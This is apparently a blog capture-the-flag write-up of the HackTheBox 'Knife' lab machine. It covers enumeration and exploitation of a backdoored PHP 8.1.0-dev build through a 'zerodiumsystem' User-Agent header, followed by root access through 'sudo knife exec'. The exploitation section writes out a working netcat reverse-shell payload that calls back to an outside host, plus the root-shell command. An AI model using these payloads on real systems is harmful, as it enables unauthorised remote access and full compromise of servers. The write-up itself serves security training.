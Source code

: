```yaml
---
layout: post
title:  "HackTheBox - Knife"
author: erik
categories: [ HTB ]
image: https://user-images.githubusercontent.com/47476901/155027848-ef97c64e-42e1-4866-bee6-1372c5ea449d.png
beforetoc: ""
toc: false
tags: [ HTB, GTFOBINS, Linux ]
---
```

Linux machine easy level

# Table of Contents
1. [Enumeration](#enumeration)
2. [Exploitation](#exploitation)
3. [Privilege Escalation](#escalation)
---

## Enumeration: <a name="enumeration"></a>

**Ports:**
- 22  ssh  OpenSSH 8.2p1
- 80  http  Apache httpd 2.4.41 (Ubuntu)

Analyzing the website we found a vulnerability in the php version.
This vulnerability allows us to execute arbitrary code in the "User Agent".

*VULNERABILITY*

- Version: PHP 8.1.0-dev
- RCE in "User Agent"
- <a href="https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py" target="_blank">Source</a>


Once we have found the vulnerability we proceed to exploit it.
We will use BurpSuite and intercept a normal request from the server to our proxy.

We will use the User Agent which will allow us to do an RCE on the server.

- User-Agentt: zerodiumsystem('id');

![RCE-test](https://user-images.githubusercontent.com/47476901/132779370-39ddc518-e9cb-4474-bb62-5644fc1c5add.png)

## Exploitation: <a name="exploitation"></a>

We have already verified that it works, now it is time to exploit it and give us the reverse to our machine.

- I will use the reverse shell of "NetCat".
```
User-Agentt: zerodiumsystem('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.201 1234 >/tmp/f');
```

![RCE-revshell](https://user-images.githubusercontent.com/47476901/132779376-85a24bde-8d38-4a4d-a19c-517e56276839.png)


## Privilege escalation: <a name="escalation"></a>

User Flag

![user txt](https://user-images.githubusercontent.com/47476901/132779381-b45d0e59-91c5-41da-a544-88b6caeeee9f.png)


Looking at what permissions the user has, we realize that he can run a binary as root.

- /usr/bin/knife

![Binary](https://user-images.githubusercontent.com/47476901/132779384-f4ac9a1b-e287-476f-b1b1-b56a95118219.png)

Looking at how this binary worked in the help manual I found something that caught my attention and I saw that scripts with the "exec" extension could be executed.

![Help-exec](https://user-images.githubusercontent.com/47476901/132779390-436fdceb-a41d-4fb5-aa02-ca947e38b506.png)

Now that we have found something useful and striking to execute commands as root, being able to execute scri.ts in this binary (which are executed as root) we proceed to implement a script that provides us with a shell.

We use the following command and get root shell:
```bash
sudo /usr/bin/knife exec --exec "exec '/bin/bash'"
```

![GettingRoot](https://user-images.githubusercontent.com/47476901/132779395-f6582e92-ca1d-4cd0-8002-18c763338484.png)

Root Flag

![root txt](https://user-images.githubusercontent.com/47476901/132779400-a834c2be-b015-45c9-9879-6593bb8dbe37.png)

**Machine Completed**
